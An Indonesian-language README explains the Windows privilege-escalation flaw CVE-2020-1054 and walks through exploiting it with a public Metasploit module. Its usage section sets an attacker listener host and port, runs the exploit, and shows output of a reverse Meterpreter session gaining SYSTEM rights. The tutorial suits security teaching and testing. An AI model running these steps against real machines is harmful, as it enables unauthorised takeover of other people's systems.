 # CVE-2020-1054

## A. Apa itu CVE-2020-1054?

[CVE-2020-1054](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1054) adalah kerentanan Local Privilege Escalation (LPE) pada driver kernel Windows, yaitu `win32k.sys`. Kerentanan ini memungkinkan penyerang yang telah mendapatkan akses sebagai user biasa untuk mengeksekusi kode arbitrer dalam mode kernel dan memperoleh hak akses tertinggi di sistem (`NT AUTHORITY\SYSTEM`).

Eksploitasi ini terjadi karena kurangnya validasi dalam manipulasi koordinat memori pada objek `tagWND` melalui fungsi `ScrollWindowEx`, yang memungkinkan `write-what-where primitive` di kernel space. Modul eksploit di Metasploit memanfaatkan kelemahan ini melalui fungsi `DrawIconEx`.

## B. Detail Teknis
- CVE ID: `CVE-2020-1054`  
- Tanggal Rilis: `12 Mei 2020`  
- Tipe: Local Privilege Escalation (LPE)  
- Fungsi Rentan: `ScrollWindowEx()` / `DrawIconEx()`  
- Komponen: `win32k.sys`  
- Platform: `Windows 7`, `Windows Server 2008 R2`  
- Arsitektur: `x86` dan `x64`  
- Skor CVSS: `7.0` (Tinggi)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-1054`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2020-1054)

## D. Langkah Penggunaan di Metasploit

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Modul Exploit CVE-2020-1054:

   ```
   msf6 > use exploit/windows/local/cve_2020_1054_drawiconex_lpe
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] Running automatic check ("set AutoCheck false" to disable)
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [+] The target appears to be vulnerable.
   [*] Executing exploit...
   [*] Launching netsh to host the DLL...
   [+] Process 1204 launched.
   [*] Reflectively injecting the DLL into 1204...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 22 opened (192.168.1.42:4444 -> 192.168.1.50:49181) at 2025-05-14 18:38:33 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
